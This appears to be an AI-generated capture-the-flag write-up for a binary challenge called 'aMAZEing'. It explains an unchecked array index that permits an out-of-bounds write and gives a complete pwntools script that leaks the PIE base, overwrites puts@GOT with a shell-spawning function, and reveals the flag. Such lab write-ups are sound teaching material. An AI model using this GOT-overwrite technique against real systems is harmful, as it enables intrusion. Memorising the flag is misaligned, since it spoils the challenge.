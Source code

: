 Here is your clean and professional writeup for the **aMAZEing** challenge with no emojis and the correct flag included.

---

# aMAZEing - Writeup

---

## Challenge Overview

**aMAZEing** is a binary maze game challenge where logic, memory, and vulnerability exploitation come together. The objective is to escape the maze — not through solving it, but by exploiting a flaw in its internal logic.

---

## Binary Details

```bash
$ file maze
maze: ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped
```

```bash
$ checksec maze
[*] '/home/user/Desktop/aMAZEing/maze'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    Stripped: No
```

### Security Summary

| Protection   | Status  |
| ------------ | ------- |
| RELRO        | Partial |
| Stack Canary | Yes     |
| NX           | Enabled |
| PIE          | Enabled |

---

## Vulnerability Analysis

The program allows the player to configure "coordinates" and "slot values" in the maze. Internally, the game logic uses a buffer called `maze_escape[]`, and inputs are used directly as indices without bounds checks.

```c
scanf("%d", &coordinates);
scanf("%d", &slot);
maze_escape[coordinates] = slot;
```

### Vulnerability: Out-of-Bounds Write

- There is no bounds check on the `coordinates` variable.
- This allows writing to memory beyond the intended array `maze_escape[]`.
- Specifically, it enables overwriting entries in the Global Offset Table (GOT), such as `puts@GOT`.
- By overwriting a GOT entry with the address of the `escape()` function, control flow is redirected to spawn a shell.

---

## Exploitation Plan

1. **Leak the PIE base address**: At startup, the binary prints the runtime address of `main()`, which can be used to calculate the full base address.
2. **Calculate offset to GOT**: Determine how far `puts@GOT` is from `maze_escape[]` in memory.
3. **Overwrite GOT entry**: Use the out-of-bounds vulnerability to overwrite the `puts@GOT` entry with the address of the `escape()` function.
4. **Trigger puts()**: The program will now call `escape()` instead, which executes `system("/bin/sh")`.

---

## Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or 'maze')

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''

#io = start()
io = remote('localhost', 1337)

# Leak PIE base address
io.recvuntil(b'The maze begins at this location, your journey starts here @')
leak = io.recvline().strip()
main_leak = int(leak, 16)
exe.address = main_leak - exe.sym['main']

log.success(f'PIE base: {hex(exe.address)}')
log.success(f'maze_escape: {hex(exe.sym["maze_escape"])}')
log.success(f'puts@GOT: {hex(exe.got["puts"])}')
log.success(f'escape(): {hex(exe.sym["escape"])}')

# Calculate offset
offset = (exe.got['puts'] - exe.sym['maze_escape']) // 4

# Overwrite GOT entry
io.sendlineafter(b'Configure coordinates (0 >=) : ', str(offset).encode())
io.sendlineafter(b'Set slot value (10 >=) : ', str(exe.sym['escape']).encode())

# Trigger the overwritten function
io.sendlineafter(b'Configure coordinates (0 >=) : ', b'0')

io.interactive()
```

---

## Result

The overwritten GOT entry causes the program to call `escape()`, which executes:

```c
system("/bin/sh");
```

A shell is spawned, granting access to the system and allowing flag retrieval.

---

## Flag

```
flag{l0st_1n_th3_4m4z3_w1th_r34l_sh3ll}
```

---

Let me know if you'd like to generate a Markdown version, convert it to PDF, or integrate it into a CTF platform format.
